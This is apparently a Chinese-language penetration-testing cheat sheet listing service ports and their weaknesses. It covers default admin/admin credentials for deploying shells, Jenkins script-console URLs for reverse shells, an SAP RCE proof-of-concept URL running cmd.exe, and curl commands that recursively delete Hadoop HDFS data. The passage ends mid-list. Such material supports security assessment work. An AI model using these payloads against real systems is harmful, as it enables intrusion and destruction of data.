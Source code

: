 - **8080 端口（ GlassFish ）**

```
安全漏洞：弱口令、任意文件读取
利用方式：
1、弱口令admin/admin，直接部署shell
2、任意文件读取获取服务器敏感配置信息
```

- **8080 端口（ Jenkins ）**

```
安全漏洞：未授权访问 、远程代码执行
利用方式：访问如下url，可以执行脚本命令，反弹shell，写入webshell等。
http://<target>:8080/manage
http://<target>:8080/script
```

- **8161 端口（ ActiveMQ ）**

```
安全漏洞：弱口令、任意文件写入、反序列化
利用方式：默认密码admin/admin登陆控制台、写入webshell、上传ssh key等方式。
```

- **9043 端口（ webSphere ）**

```
安全漏洞：控制台弱口令、远程代码执行
后台地址：https://:9043/ibm/console/logon.jsp
```

- **50000 端口（ SAP ）**

```
安全漏洞：远程代码执行
利用方式：攻击者通过构造url请求，实现远程代码执行。
POC:http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cmd.exe /c ipconfig /all
```

- **50070 端口（ hadoop ）**

```
安全漏洞：未授权访问
利用方式：攻击者可以通过命令行操作多个目录下的数据，如进行删除操作。
curl -i -X DELETE “http://ip:50070/webhdfs/v1/tmp?op=DELETE&recursive=true“
curl -i -X PUT “http://ip:50070/webhdfs/v1/NODATA4U_SECUREYOURSHIT?op=MKDIRS“
```

## 数据库端口

- **389 端口（ ldap ）**

```
安全漏洞：未授权访问 、弱口令
利用方式：通过LdapBrowser工具直接连入。
```

- **1433 端口（ Mssql ）**

